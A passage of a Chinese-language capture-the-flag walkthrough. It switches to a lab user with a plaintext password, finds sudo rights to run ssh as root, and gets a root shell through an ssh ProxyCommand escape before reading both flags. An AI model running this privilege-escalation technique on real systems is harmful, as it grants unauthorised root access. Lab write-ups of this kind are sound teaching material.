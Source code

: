 ```
```


查看home目錄使用者名稱:`josh`，並使用如下指令取得該使用者權限
```
$ ls -al /home
total 12
drwxr-xr-x  3 root root 4096 May 18  2023 .
drwxr-xr-x 19 root root 4096 Aug 14 14:11 ..
drwxr-x---  5 josh josh 4096 Dec 12 14:48 josh'

$ su josh
Password: manchesterunited
ls
cloudhosting-0.0.1.jar
whoami
josh
ls
cloudhosting-0.0.1.jar
cd /home
ls
josh
cd josh
ls
enum.output
enum.sh
linpeas.output
linpeas.sh
user.txt
cat user.txt
3a4fd43608bb80e633abc785ce61fe1d
```

嘗試使用`sudo -l`提升權限至`root`，但提示`josh`只能用`root`執行`ssh`指令
```
sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
sudo -l -S
[sudo] password for josh: manchesterunited
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

最後，依照 https://gtfobins.github.io/gtfobins/ssh/#sudo 的方法提升權限至`root`，取得最終flag
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
Pseudo-terminal will not be allocated because stdin is not a terminal.
id
uid=0(root) gid=0(root) groups=0(root)

cd /root
ls
root.txt
cat root.txt
316f5f539f2e128c63e149211b9c5c5d
```
